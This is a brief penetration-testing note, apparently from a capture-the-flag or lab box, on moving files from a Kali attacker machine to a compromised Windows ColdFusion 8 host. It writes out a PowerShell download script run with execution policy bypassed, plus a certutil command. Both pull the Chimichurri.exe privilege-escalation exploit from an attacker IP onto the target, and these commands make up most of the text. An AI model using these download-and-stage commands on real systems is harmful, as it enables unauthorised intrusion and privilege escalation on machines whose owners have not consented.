 
## Download files from Kali machine to Windows using cmd & powershell

Failed to migrate powershell from cmd. \
In that case, to download binaries from Kali to Windows, use following commands.

```
C:\ColdFusion8> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\ColdFusion8> echo $url = "http://10.10.14.10/chimichurri.exe" >>wget.ps1
C:\ColdFusion8> echo $file = "exploit.exe" >>wget.ps1
C:\ColdFusion8> echo $webclient.DownloadFile($url,$file) >>wget.ps1
C:\ColdFusion8> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
```


## Download files from Kali machine to Windows using certutil command

```
certutil.exe -urlcache -split -f http://10.10.14.19:8989/Chimichurri.exe Chimichurri.exe
```



